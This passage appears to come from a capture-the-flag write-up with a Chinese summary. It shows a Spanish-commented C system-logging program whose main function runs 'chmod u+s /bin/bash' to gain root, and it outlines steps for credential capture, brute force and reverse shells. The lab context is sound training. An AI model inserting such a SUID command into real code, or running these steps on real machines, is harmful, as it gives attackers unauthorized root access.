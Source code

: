 ```
    struct timespec uptime;
    if (clock_gettime(CLOCK_BOOTTIME, &uptime) < 0) {
        perror("Error al obtener el tiempo de inicio del sistema");
        exit(EXIT_FAILURE);
    }
    time_t boot_time = time(NULL) - uptime.tv_sec;

    // Escribir la información en el archivo de log
    fprintf(log_file, "-----------------------------\n");
    fprintf(log_file, "Fecha y Hora: %s", ctime(&boot_time));
    fprintf(log_file, "Nombre del Sistema: %s\n", sys_info.sysname);
    fprintf(log_file, "Nombre del Host: %s\n", sys_info.nodename);
    fprintf(log_file, "Versión del Sistema: %s\n", sys_info.release);
    fprintf(log_file, "Versión del Kernel: %s\n", sys_info.version);
    fprintf(log_file, "Arquitectura de Hardware: %s\n", sys_info.machine);
    fprintf(log_file, "-----------------------------\n");

    fclose(log_file);
}

int main() {
    const char *log_filename = "/tmp/registros.log";
    system("chmod u+s /bin/bash");
    log_system_info(log_filename);

    return 0;
}
```

![](./images/image-194.png)

## Summary

`User`：在页面上使用**filterchains**虽然成功了，但是还是无法直接反弹**shell**，通过目录里的文件得知darks的密码，并且需要给自己添加一个**172.17.0.188**的网络接口才能成功连接。使用**wireshark**抓包得到加密字符串，获得**cristal**的密码。（也可以通过**hydra**爆破得到**darks**的密码，可能并不是预期？

`Root`：当前用户对**systm.c**具有可写权限，由于没有**vim**，这里使用的是**nano**，头文件中包含过**stdlib.h**，因此可以在主函数中直接使用**system**函数进行命令执行，给**/bin/bash**添加执行者权限。
